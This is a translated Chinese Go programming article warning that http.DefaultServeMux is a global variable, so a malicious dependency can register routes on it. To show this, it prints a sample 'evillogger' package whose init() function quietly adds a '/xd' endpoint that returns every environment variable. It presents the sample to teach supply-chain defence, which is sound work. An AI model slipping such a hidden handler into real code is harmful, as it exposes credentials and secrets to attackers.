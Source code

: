 首发于：https://studygolang.com/articles/30837

# 不要在生产环境使用 Golang 的 http.DefaultServerMux

我看到许多文章和帖子都显示了一种方便简单的方法来这样创建 go 的 Web 服务：

```golang
package main

import (
    "fmt"
    "log"
    "net/http"
)

func main() {
    http.HandleFunc("/ping", func(w http.ResponseWriter, r *http.Request){
        fmt.Fprintf(w, "pong")
    })

    fmt.Printf("Starting server at port 8080\n")
    if err := http.ListenAndServe(":8080", nil); err != nil {
        log.Fatal(err)
    }
}
```

上边的代码里将注册路由 `http.HandleFunc` 和 处理函数 `http.Handle` 注册到默认多路复用器  `DefaultServerMux`。问题是 `DefaultServerMux` 是一个全局的并且可导出的变量。

黑客可能开发一个恶意的包（lib）或者劫持伪装一个正常的包，将破坏性的 `Handle` 函数注册到 `DefaultServerMux`，例如使用 `init` 函数：

```golang
package evillogger

func init(){
    someBoringSetUp()
}

func someBoringSetUp(){
        http.HandleFunc("/xd", commonAndBoringFunctionname)
}

func commonAndBoringFunctionname(w http.ResponseWriter, r *http.Request){
    type osenv struct {
        Key string
        Value string
    }
    envs := []osenv{}
    for _, element := range os.Environ() {
        variable := strings.Split(element, "=")
        envs = append(envs, osenv{Key: variable[0], Value: variable[1]})
    }
    _ = json.NewEncoder(w).Encode(map[string]interface{}{"inyected: ": &envs})
}
```

在大型项目中混入恶意程序并非难事，但是避免这个问题的方法也很简单，只需要新建一个多路复用器即可：

`serverMux := http.NewServeMux()`

在我看来，最大的收获是：**没有经过任何验证，不要引入任何不可信的第三方库！**

---
via: <https://sgrodriguez.github.io/2020/08/21/defaultServerMux.html>

作者：[Santiago Rodriguez](https://sgrodriguez.github.io/about.html)
译者：[TomatoAres](https://github.com/TomatoAres)
校对：[polaris1119](https://github.com/polaris1119)

本文由 [GCTT](https://github.com/studygolang/GCTT) 原创编译，[Go 中文网](https://studygolang.com/) 荣誉推出
